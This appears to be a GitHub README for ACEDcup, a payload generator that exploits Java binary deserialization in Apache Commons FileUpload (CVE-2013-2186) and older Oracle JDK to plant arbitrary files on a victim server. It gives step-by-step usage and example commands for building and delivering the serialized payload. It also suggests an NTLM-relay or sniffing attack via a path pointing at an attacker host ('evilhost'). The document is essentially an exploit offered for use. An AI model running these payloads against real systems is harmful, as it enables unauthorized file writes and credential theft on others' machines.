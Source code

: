 # ACEDcup

ACEDcup tool is a payload generator for Java Binary Deserialization attack (ACED)

For Apache Commons FileUpload ver <= 1.3 (CVE-2013-2186) and Oracle JDK ver < 7u40

The attack works even for newer versions of the lib or Java. We can upload any content in any directory, but 
we cannot control a file name (smth like upload_f71d3547_72ed_4ae1_90fe_0d319115cd42_00000000.tmp) in this situation. Hovewer, it may be useful in some cases. 

Also we can perform a NTLM-relay/sniffing attack (using \\\\evilhost\\any\\path) if your target is on Windows OS.

## Usage
```
  1)
  At first, we create a serialized payload:
  java -jar aced_cup.jar /path/payload /path/target /path/out 1
  
  /path/payload - a *path* to a file with your payload
  /path/target - a *path* to a file that will be created in your victim (this will be stored in the serialized payload)
  /path/out - a *path* to a file with serialized payload
  0 - turn off null-byte ending if you attack a patched system (with null by default)

  2)
  Then we set the serialized payload to a serialized reader:
  java -jar ser_reader serialized_payload.txt
  ser_reader tries to deserialize the payload and because of a vulnerability in it's library, it creates a new file in the directory specified.

```
## Example

 ```java -jar aced_cup.jar D:\\cup_exploit\\payload.txt /home/user/test/any_name.txt D:\\cup_exploit\\serialized_payload.txt```
 ```java -jar ser_reader D:\\cup_exploit\\serialized_payload.txt````
